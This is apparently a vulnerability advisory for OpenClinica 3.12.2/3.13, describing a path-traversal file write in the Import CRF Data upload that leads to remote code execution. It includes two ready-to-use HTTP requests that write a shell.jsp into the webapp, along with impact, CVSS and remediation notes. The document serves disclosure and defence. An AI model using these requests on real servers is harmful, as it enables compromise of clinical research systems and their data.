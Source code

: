 # OpenClinica Import CRF Data – Arbitrary file write → RCE (path traversal)

The Import CRF Data upload handler trusts the client-supplied `filename` and allows `../` traversal, enabling arbitrary file write. Dropping a JSP in the webapp leads to code execution.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21) (OpenClinica VM Image)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager** and **Clinical Research Coordinator**)

## Summary
By crafting the multipart **`filename`** with path traversal, the server writes the uploaded body to an attacker-controlled path. Writing `shell.jsp` into the OpenClinica webapp results in **RCE** when the file is requested. Verified with both relative traversal into Tomcat’s deployed webapp and an absolute path to the Tomcat webapps dir on the vendor VM.

## Raw requests (abridged)

**Variant 1 – relative traversal into deployed app**
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X
Cookie: JSESSIONID=<...>

------X
Content-Disposition: form-data; name="xml_file"; filename="../webapps/OpenClinica/shell.jsp"
Content-Type: application/xml

<%-- JSP proof-of-execution payload --%><%= System.getProperty("user.name") %>
------X--
```

**Variant 2 – absolute path on typical Debian/Ubuntu Tomcat**
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X
Cookie: JSESSIONID=<...>

------X
Content-Disposition: form-data; name="xml_file"; filename="../../../../../../usr/share/tomcat/webapps/OpenClinica/shell.jsp"
Content-Type: application/xml

<%-- JSP proof-of-execution payload --%><%= System.getProperty("user.name") %>
------X--
```

Then browse to:
```
http://<target>:8080/OpenClinica/shell.jsp
```
A simple JSP demonstrated server-side execution as the application server’s OS user (on the vendor VM image this user was **root**, further amplifying impact).

## Impact
- Arbitrary file write on the host.
- Remote Code Execution in the context of the servlet container user.
- Full compromise of data and application integrity/availability.

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` → **8.8 High**  
**CWE:** 22 (Path Traversal), 434 (Unrestricted File Upload)

## Remediation
- Never trust client `filename`; save to a fixed, non-web-served directory with a server-generated name.
- Reject `..`, path separators, and absolute paths. Enforce strict allow-list of extensions and content validation.
- Run Tomcat/OpenClinica as a **non-privileged** user and keep webroots **read-only** to that user; disable JSP execution if not required.

## Timeline
- **2025-10-09 → 2025-10-23**: Discovered and reproduced on 3.12.2 and 3.13 test images.  
- Evidence: Burp requests and shell session screenshots included.
